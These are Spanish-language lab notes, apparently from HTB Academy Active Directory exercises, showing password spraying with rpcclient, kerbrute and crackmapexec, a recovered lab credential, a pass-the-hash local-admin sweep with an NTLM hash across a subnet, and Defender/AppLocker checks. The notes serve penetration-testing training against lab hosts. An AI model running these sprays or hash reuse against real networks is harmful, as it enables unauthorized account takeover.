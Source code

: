 ![image](https://github.com/gecr07/HTB-Academy/assets/63270579/57fc0bcd-9011-4f40-b5c0-da3f96b0eed2)


### RPCLIENT para password Spray

> Una vez que hayamos creado una lista de palabras usando uno de los métodos mostrados en la sección anterior, es hora de ejecutar el ataque. Rpcclientes una excelente opción para realizar este ataque desde Linux. Una consideración importante es que un inicio de sesión válido no es evidente de inmediato con rpcclient, y la respuesta Authority Nameindica un inicio de sesión exitoso. Podemos filtrar los intentos de inicio de sesión no válidos mediante greppingfor Authorityen la respuesta. La siguiente frase breve de Bash (adaptada de aquí ) se puede utilizar para realizar el ataque.

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/278d64c5-f9cf-41d1-a69c-d5fb9ad3a4b3)


Con Kerbrute intente hacer el password spray pero no me dio ningun resultado no se porque

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

Sin embargo con cme si

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
Y nos dio un resultado
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

### Reutilización de contraseña de administrador local

Prueba este tipo de ataque la reutilizacion de credenciales de administrador local.

```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Windows defender

Para ver si el AV esta activado usa

```
Get-MpComputerStatus
```

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/1ae0bd13-5b9a-4e07-8d2c-309db898e733)


## AppLocker

![image](https://github.com/gecr07/HTB-Academy/assets/63270579/86c6488e-1429-45ae-9639-465501542ffb)


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
